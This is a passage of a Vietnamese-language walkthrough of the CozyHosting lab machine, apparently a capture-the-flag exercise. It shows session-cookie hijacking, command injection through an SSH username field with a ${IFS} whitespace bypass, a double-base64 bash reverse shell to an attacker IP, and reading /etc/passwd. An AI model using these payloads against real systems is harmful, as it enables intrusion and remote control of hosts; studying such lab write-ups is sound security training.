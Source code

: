 ```bash
{"1903A4A5CDE14E9C9AE0EBF648EDE3B1":"kanderson"}
```

Có được session của thằng kanderson đem thay session hiện tại của mình. Và:

![CozyHosting](/posts/CozyHosting/Untitled%203.png)

Ngay dưới có chức năng ssh connection, thử chạy ssh server và connect tới máy mình thì nó báo connection timeout. Nhưng:

![CozyHosting](/posts/CozyHosting/Untitled%204.png)

url chuyển hướng lại chứa output của lệnh ssh =)) Khả năng OS Command Injection rất cao.

Có thể câu lệnh SSH nó sẽ trông như thế này:

```bash
ssh <username>@<hostname>
```

Chèn 1 payload command substitution để test:

![CozyHosting](/posts/CozyHosting/Untitled%205.png)

⇒ OS Command Injection

![CozyHosting](/posts/CozyHosting/Untitled%206.png)

Trường username bị filter dấu whitespaces. Có 1 vài tricks để bypass whitespaces ([tại đây](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions#bypass-forbidden-spaces))

![CozyHosting](/posts/CozyHosting/Untitled%207.png)

ping thành công, tức câu lệnh của mình đã được thực thi.

Double-base64 payload tạo revershell để bypass một số kí tự đặc biệt.

```bash
┌──(kali㉿kali)-[/home/kali]
└─# echo "echo $(echo 'bash -i >& /dev/tcp/10.10.16.45/9999 0>&1' | base64 | base64)|base64 -d|base64 -d|bash" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhNQzR4Tmk0ME5TODVPVGs1SURBK0pqRUsK|base64${IFS}-d|base64${IFS}-d|bash
```

![CozyHosting](/posts/CozyHosting/Untitled%208.png)

## Privilege Escalation

Trước tiên, xem trong đây những user nào có shell

```bash
app@cozyhosting:/$ cat /etc/passwd | grep bash
```

![CozyHosting](/posts/CozyHosting/Untitled%209.png)
